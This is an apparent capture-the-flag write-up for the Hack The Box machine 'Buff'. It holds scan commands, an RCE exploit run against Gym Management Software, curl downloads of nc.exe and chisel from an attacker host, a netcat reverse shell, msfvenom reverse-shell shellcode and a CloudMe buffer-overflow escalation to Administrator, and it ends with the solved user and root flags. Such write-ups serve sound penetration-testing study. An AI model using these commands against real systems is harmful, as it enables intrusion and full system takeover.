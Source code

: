 # Buff - Easy

```shell
sudo vim /etc/hosts
#10.10.10.198 buff.htb

nmap -T4 -p- -A -Pn -v buff.htb

feroxbuster -u http://buff.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,404,405,500 --silent

#get exploit
python2 gym-rce.py

python2 gym-rce.py 'http://buff.htb:8080/'

#this gives us reverse shell

whoami
#shaun

#get user flag

#in attacker machine
python3 -m http.server

#use curl to transfer nc.exe
curl http://10.10.14.3:8000/nc64.exe -o nc.exe

#setup listener in attacker machine
nc -nvlp 4445

#reverse shell command
.\nc.exe 10.10.14.3 4445 -e powershell

#we get powershell on our listener
gci

#check listening ports
netstat -ano

#enumerate for service on port 8888

cd C:\Users\shaun

gci -recurse
#this shows CloudMe software

#search for exploit
searchsploit CloudMe

searchsploit -m windows/remote/48389.py
#mirrors file to current directory

vim 48389.py
#this requires service to be run locally
#so we need to setup tunnel

#download chisel

#in victim shell
curl http://10.10.14.3:8000/chisel_windows.exe -o chisel.exe

#in attacker machine, run chisel as server
./chisel_linux server -p 8000 --reverse

#in windows shell, run chisel as client
.\chisel.exe client 10.10.14.3:8000 R:8888:localhost:8888
#we are connected

#modify exploit
vim 48389.py

#generate new shellcode
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=5555 -b '\x00\x0A\x0D' -f python

#use this shellcode in exploit

#setup listener
nc -nvlp 5555

python3 48389.py
#this gives us reverse shell as Administrator
```

* Open ports & services:

  * 7680 - pando-pub
  * 8080 - http - Apache httpd 2.4.43 (Win64)

* Checking the webpage on port 8080, we can see that it is a website for a gym service.

* In this, the 'Contact' section shows that the webpage is based on ```Gym Management Software 1.0```

* Searching for exploits related to this software gives us a few exploits - we can use them.

* On using the RCE exploit for this software, we are able to get a reverse shell as user 'shaun'.

* We can get user flag from shaun's Desktop.

* Now, in order to get a full-fledged shell, we can use ```certutil``` to transfer ```Import-PowerShellTcp.ps1``` but it does not work.

* The victim machine has ```curl```, so we can use that to transfer ```nc.exe``` and setup listener for reverse shell.

* Now, checking for listening ports shows two TCP services on 3306 and 8888.

* 3306 is for ```mysql```, but we do not know what's running on 8888, so we can check by enumerating files.

* Checking shaun's files, in the Downloads folder, we can see a download named 'CloudMe_1112.exe'.

* Searching for exploits related to 'CloudMe' give us buffer overflow exploits.

* Going through the Python script shows that we need to run the service locally, so we will have to setup a tunnel.

* In this case, we can use the ```chisel``` tool to setup a tunnel for port forwarding.

* We can then run ```chisel``` as server on attacker machine, and as client on the Windows reverse shell.

* We receive the connected prompt on our server, and now we have forwarded the service on port 8888.

* Now, we need to modify the Python buffer overflow exploit and modify the command being run.

* After running the ```msfvenom``` command for generating a stageless payload (as we are using netcat to catch reverse shell), we need to paste the shellcode in the exploit and modify variable names accordingly.

* Now, setting up listener and running the modified buffer overflow exploit gives us reverse shell as Administrator.

```markdown
1. User flag - 3abe4a313732f403347add8279b36f64

2. Root flag - 4bcc45d67f996bcbe2a096a1247e0130
```
